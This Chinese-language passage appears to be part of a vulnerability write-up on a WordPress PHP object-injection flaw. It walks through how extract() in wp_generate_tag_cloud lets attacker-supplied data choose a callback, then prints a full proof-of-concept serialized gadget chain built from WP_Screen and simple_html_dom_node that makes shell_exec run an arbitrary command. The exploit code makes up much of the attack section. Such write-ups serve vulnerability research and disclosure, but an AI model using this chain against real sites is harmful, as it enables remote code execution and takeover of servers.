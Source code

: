 关于 extract 函数的手册说明：[`www.php.net/function.extract`](http://www.php.net/function.extract)

wp_generate_tag_cloud()函数接受两个参数$tags 和$args，$args 经过 wp_parse_args 函数的处理，该函数的作用是把$args 数组与默认的一组$deafults 合并，之后经过 extract 函数生产一些变量，其中一个是$topic_count_scale_callback 变量。之后，该变量被调用传入一个参数，好消息就是我们能够完全控制这个变量。第一个参数，WP_Screen 对象被转化为数组，当一个对象被强制转化为数组的时候，其中的属性最为关键：

```
<?php
class Swag {
    public $yolo = 'yolo';
}
$swag = new Swag;
var_dump((array)$swag);
?>

```

输出结果为：

```
array(1) {
  ["yolo"]=>
  string(4) "yolo"
} 
```

现在我们需要的就是 WP_Screen 对象中的一个属性有一个 count 属性。

这是个很容易解决的问题，因为我们可以让所有的属性反序列化一遍。

这就意味着我们能够调用任何不带参数的函数，并完全控制它。

## 0x03 EXP

* * *

根据以上分析，你应该可以构造一个属于自己的完美 exploit 了。不过先展示一下我的做法：

```
<?php
class simple_html_dom_node {
    private $dom;
    public function __construct() {
        $callback = array(new WP_Screen(), 'render_screen_meta');
        $this->dom = (object) array('callback' => $callback);
    }
}
class WP_Screen {
    private $_help_tabs;
    public $action;
    function __construct() {
        $count = array('count' => 'echo "schwag" > /tmp/1337h4x0rs');
        $this->action = (object) $count;
        $this->_help_tabs = array(array(
            'callback' => 'wp_generate_tag_cloud', 
            'topic_count_scale_callback' => 'shell_exec'));
    }
}
echo serialize(new simple_html_dom_node()).'{0xf09d8c86}';
?>

```
